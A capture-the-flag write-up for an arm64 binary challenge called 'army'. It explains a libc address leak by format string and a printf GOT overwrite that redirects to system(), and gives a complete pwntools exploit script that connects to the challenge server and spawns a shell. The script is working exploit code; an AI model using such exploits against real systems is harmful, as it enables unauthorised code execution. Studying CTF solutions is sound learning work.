 # army

## problem

But can you get a shell? (same attachments as pwny, the challenge runs on Ubuntu 20.)

see [chal](./chal) and [libc.so.6](./libc.so.6) 

## solution

one of the annoying things about this challenge is that it's arm64 which means i have to use qemu to run it and debug it which took hours to set up

fortunately, this one wasn't too hard

here we had to leak the libc address (an address close by to the libc address was on the stack iirc)

we know the system address because it is always at a specified location if you know the libc address

then, we had to overwrite the GOT PLT printf to redirect execution to the system() function, and because the vuln() also happens to print out whatever input you put in, we can put in `/bin/sh` as our next input to get a shell

this solution also utilized the format string exploit (see [pwny](../pwny) for more info)

```py
from pwn import *

context.arch = 'arm64'

context.bits = 64
context.endian = 'little'

# libc = ELF("./local-libc.so.6")
libc = ELF("./libc.so.6")

libc_offset = libc.symbols['__libc_start_main']
system_offset = libc.symbols['system']

# p: tubes.process.process = gdb.debug(["./chal"], "break vuln")
p = remote("155.248.203.119", 42051)
# p = process(["./chal"])
vuln_address = 0x4007ec
printf_got_plt_address = 0x411038
puts_plt_address = 0x400630
libc_start_address = 0x411010

p.sendline(p64(libc_start_address) + p32(printf_got_plt_address) + b'\x00'*4 + cyclic(48) + b'\x00' * 8 + p64(vuln_address))

p.sendline(b'%10$s')

p.recv()  # remove pwny message
# p.recv()
# p.recv()

gotten = p.recvline().rstrip(b"\n").hex().ljust(16, '0')

remote_libc_start_address = int.from_bytes(bytes.fromhex(gotten), byteorder="little")

if remote_libc_start_address < 0x1_00_00_00_00:
    remote_libc_start_address += 0x55_00_00_00_00

print(f"__libc_start_main: {remote_libc_start_address} ({remote_libc_start_address.to_bytes(8, 'big').hex()})")

libc_base_address = remote_libc_start_address-libc_offset

print(f"libc base: {libc_base_address} ({libc_base_address.to_bytes(8, 'big').hex()})")

system_address = libc_base_address+system_offset

print(f"system address: {system_address} ({system_address.to_bytes(8, 'big').hex()})")

lined = b"%" + str(system_address & 0xffff).encode() + b"x%11$hn"
print("lined:" + lined.decode('ascii'))
p.sendline(lined)

p.sendline(b"%11$s")

print("thing:" + p.recvline().hex().rstrip("0a"))

p.interactive()
```
